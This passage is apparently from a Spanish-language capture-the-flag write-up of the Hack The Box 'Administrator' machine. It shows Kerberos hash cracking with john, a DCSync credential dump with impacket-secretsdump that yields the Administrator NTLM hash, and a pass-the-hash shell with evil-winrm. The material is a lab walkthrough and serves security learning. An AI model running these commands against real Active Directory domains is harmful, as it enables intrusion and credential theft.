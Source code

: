 ```terminal
/home/kali/Documents/htb/machines/administrator:-$ john krb5-hash.txt --wordlist=/usr/share/wordlists/rockyou.txt
limpbizkit       (?)
```

Con esta credencial se ejecuta un ataque DCSync mediante la herramienta impacket-secretsdump, aprovechando los privilegios extendidos `GetChangesAll`. El ataque permite extraer el hash NTLM del usuario `Administrator`.

```terminal
/home/kali/Documents/htb/machines/administrator:-$ impacket-secretsdump "Administrator.htb/ethan:limpbizkit"@"dc.Administrator.htb"
Administrator:500:aad3b435b51404eeaad3b435b51404ee:3dc553ce4b9fd20bd016e098d2d2fd2e:::
```

![](assets/img/htb-writeup-administrator/administrator4_4.png)

Finalmente, se utiliza evil-winrm para establecer una sesión remota como el usuario `Administrator`, utilizando el hash NTLM obtenido en la etapa anterior. El acceso exitoso confirma el compromiso completo del dominio.

```terminal
/home/kali/Documents/htb/machines/administrator:-$ evil-winrm -i administrator.htb -u administrator -H "3dc553ce4b9fd20bd016e098d2d2fd2e"

*Evil-WinRM* PS C:\Users\Administrator> type Desktop/root.txt
```

> <a href="https://labs.hackthebox.com/achievement/machine/1521382/634" target="_blank">***Litio7 has successfully solved Administrator from Hack The Box***</a>
{: .prompt-info style="text-align:center" }

